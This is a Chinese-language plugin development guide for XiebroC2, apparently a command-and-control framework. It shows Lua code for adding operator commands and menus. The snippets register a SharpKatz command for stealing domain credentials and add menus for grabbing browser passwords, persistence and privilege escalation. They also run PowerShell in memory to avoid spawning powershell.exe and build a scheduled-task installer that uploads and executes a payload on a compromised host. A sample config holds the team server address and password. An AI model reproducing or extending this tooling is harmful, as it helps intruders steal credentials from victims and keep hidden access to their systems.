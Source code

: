 
目录

- [1.扩展外部窗体](#1扩展外部窗体)
- [2.扩展Session 命令](#2扩展session-命令)
- [3.扩展功能菜单栏](#3扩展功能菜单栏)
- [4.菜单栏整理](#4菜单栏整理)
- [5.使用内置API扩展窗体](#5使用内置api扩展窗体)

## 1.扩展外部窗体

xiebroC2提供了简单的插件接口，它可以降低插件编写的门槛，并且实现CobaltStrike那样的插件体系

例如要在控制端的顶部菜单栏添加一个shellcode分离加载器：

<video src="https://private-user-images.githubusercontent.com/89376703/311126700-913d66d5-fe82-459a-8b3d-ea73682a9bb7.mp4?" width="640" height="480" controls></video>



- 将Winform .Net程序转成XiebroC2的lua插件

```powershell
 Import-Module .\Convert-NetToLua.ps1
 Convert-NetToLua -infile .\Plugins.exe -Output a.lua -Name loader
```

在编写winform的时候需要注意的是，你要将入口点修改成下面这样，如果是Application.EnableVisualStyles启动，在被转成lua插件时，主控端加载会报错

```C#
internal static class Program
{
    /// <summary>
    /// 应用程序的主入口点。
    /// </summary>
    [STAThread]
    static void Main()
    {
         Form1 form1 = new Form1();
         form1.ShowDialog();
    }
}
```



## 2.扩展Session 命令

<img src="Image\\image-20240308134300864.png"  />



在命令列表中添加外部命令

```lua
AddCommand(
    "SharpKatz", --Name
    "Plugins\\SharpKatz.exe", -- FilePath
    "execute-assembly", --load type
    "Steal domain login credentials",  --Descripttion
    "SharpKatz -h" --Usage
)
```

- AddCommand第三个参数有三种加载方式，如果是.net 程序集则选择“execute-assembly”、“Inline-assembly” ，如果是C/C++/Golang/rust/nim编写的PE文件则选择RunPE
- SharpKatz命令添加成功

<img src="Image\\image-20240308144452120.png"  />



## 3.扩展功能菜单栏



```lua
AddMenuItemA("Pentest", null)
AddMenuItemB("GetIPInfo", "", function() Nopowershell("ipconfig", "1") end)
```

AddMenuItemB比AddMenuItemA多一个点击事件的参数（类似回调函数），lua中似乎无法支持重载，因此我用函数的A和B进行区分

Nopowershell可以在内存中执行非托管的powershell而无需启动Powershell.exe进程，实际上你可以参考[nopowershell](https://github.com/INotGreen/Nopowershell)的代码例子

这里值得注意的是Nopowershell执行是否要创建子进程取决于Profile.json中的参数配置，如果Fork为flase则为无进程执行powershell

```json
{
    "TeamServerIP": "192.168.1.250",
    "TeamServerPort": "8880",
    "Password": "123456",
    "StagerPort": "4050",
    "Telegram_Token": "",
    "Telegram_chat_ID": "",
    "Fork": false,
    "Route": "www",
    "Process64": "C:\\windows\\system32\\notepad.exe",
    "Process86": "C:\\Windows\\SysWOW64\\notepad.exe",
    "WebServers": [],
    "listeners": [],
    "rdiShellcode32": "",
    "rdiShellcode64": "",
}
```



## 4.菜单栏整理

```lua
AddMenuItemA("Pentest", null)
AddMenuItemA("CollectInfo", null) --
AddMenuItemA("Grab browser Passwords", null)
AddMenuItemA("Persistence", null)
AddMenuItemA("Scheduled Tasks", null)
AddMenuItemB("Installation", "", SchTaskForm)
AddMenuItemB("Privilege", null, function() Sessionlog("Message") end)

AddMenuItemB("4.0", "", function() Nopowershell("ipconfig", "1") end)

local menuStructure = {
    ["Pentest"] = {"CollectInfo", "Persistence", "Privilege"},
    ["CollectInfo"] = {"Grab browser Passwords"},
    ["Persistence"] = {"Scheduled Tasks"},
    ["Scheduled Tasks"] = {"Installation"},
    ["Privilege"] = {"4.0"}
}
for parent, subs in pairs(menuStructure) do AddMenuItemsAsSubItems(parent, subs) end
```

通过这样的方式您可以整理菜单栏的父子关系

<img src="Image\image-20240308150949896.png" />



## 5.使用内置API扩展窗体

```lua
local function SchTaskForm()
    local IsOK = false
    local Form1 = CreateForm("sch", 422, 355)

    local Label1 = Addlabel(Form1, "Interval(min):", 17, 33, 133, 25)
    local Label2 = Addlabel(Form1, "Select File:", 31, 103, 114, 25)
    local Label3 = Addlabel(Form1, "Directory:", 28, 174, 114, 25)

    local addButton = AddSelectFileButton(Form1, "Select", 162, 100, 181, 33)
    local texBox1 = AddTextBox(Form1, 162, 31, 181, 33)
    local ComBox1 = AddComBox(Form1, 162, 174, 181, 33)
    local Button1 = AddButton(Form1, "Ok", 36, 234, 106, 37, function()
        if texBox1.Text ~= "" and ComBox1.Text ~= "" and addButton.Text ~=
            "Select" then -- The values of texBox1 and ComBox1 can't be empty strings, otherwise this window
            IsOK = true
            Form1:Hide()

        else
            IsOK = false
            MessageBoxA("adas")
        end
    end)

    local Button2 = AddButton(Form1, "close", 236, 234, 107, 37,
                              function() Form1:Close() end)
    Form1:ShowDialog()
    if IsOK then
        local FileName = GetFileName(addButton.Text)
        local UploadFilePath = ComBox1.Text .. "\\" .. FileName
        Upload(UploadFilePath, addButton.Text)
        InlineAssembly("Plugins\\Scheduled.exe", texBox1.Text)
    end
end

AddMenuItemB("Task installer", "", SchTaskForm)
```

